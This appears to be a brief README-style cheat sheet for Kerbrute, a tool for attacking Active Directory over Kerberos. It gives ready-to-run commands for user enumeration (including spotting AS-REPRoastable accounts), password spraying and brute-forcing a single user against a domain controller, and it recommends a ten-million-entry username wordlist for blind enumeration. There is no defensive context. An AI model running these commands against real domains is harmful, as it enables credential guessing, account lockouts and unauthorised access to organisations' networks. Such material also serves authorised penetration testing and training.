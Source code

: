 # Kerbrute

### Usage: 

#### It can also show you users that can be AS-REPRoasted

    ./kerbrute userenum --dc DOMAIN_CONTROLLER -d DOMAIN WORDLIST.TXT

#### Password Spray attack

    ./kerbrute passwordspray -d DOMAIN USERS.TXT PASSWORD

    ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 WORDLIST.TXT PASSWORD

#### Bruteforce attack

    ./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 WORDLIST.TXT USER

## TIP: Use the xato-net-10-million-usernames.txt wordlist for blind username enumeration
